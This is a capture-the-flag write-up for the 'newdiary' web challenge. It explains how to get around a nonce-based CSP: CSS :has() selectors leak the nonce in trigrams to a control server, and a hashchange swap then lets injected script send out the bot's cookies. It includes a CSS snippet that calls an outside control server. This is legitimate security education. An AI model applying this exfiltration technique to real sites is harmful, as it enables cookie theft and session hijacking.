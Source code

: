 # newdiary&emsp;<sub><sup>Web, 458 points</sup></sub>

_Writeup by [@bluepichu](https://github.com/bluepichu)_

The problem provides a pretty standard XSS setup: the ability to create posts and report them to an XSS bot, with the goal being to retrieve the bot's cookies.

The "view reported post" page gives the ability to inject arbitrary HTML in the page, with the only mitigation being a CSP with a nonce rule, which is properly randomized.  However, the CSP does not prevent us from connecting to an external server and does not prevent styles, so we can use styled elements with a background image pointing to a control server to exfiltrate information.  Conveniently, there is a copy of the script nonce in a script tag on the page, meaning that we can make checks against that element to leak information about the nonce.  In particular, we can write CSS rules like this to check for various patterns within the nonce:

```css
body:has([nonce^=a]) {
	background-image: url('http://controlserver/a');
}
```

The "view reported post" page also responds to the `hashchange` event exactly one time, allowing us to switch the content rendered on the page to a different post.  This means that if we can leak the nonce using one post's content, then we can create a new post with the known nonce and then swap out the page content by changing the hash to the new post's ID.

The approach we arrived at to actually leak the nonce was to use trigrams; so in particular, we check for the existence of every 3-character pattern within the base-36 nonce.  Since the CSP allows hosting styles on unpkg, we just hosted [an NPM package](https://www.npmjs.com/package/notrightpad) with the appropriate stylesheet and included it from there.  This is enough information to recover the entire nonce so long as no bigrams are repeated, which is likely to occur for a random nonce.

The full exploit chain is:
- Use a meta redirect to get the admin to our own site
- Open the "view reported post" page in an iframe on our site, viewing a post that loads our custom nonce-leaking CSS
- Receive all of the trigrams
- Reconstruct the nonce from the trigrams
- Create a new post containing a script in a srcdoc-based iframe that sends us the cookies, which contains the nonce we recovered
- Change the hash on the iframe to make the admin load this new post
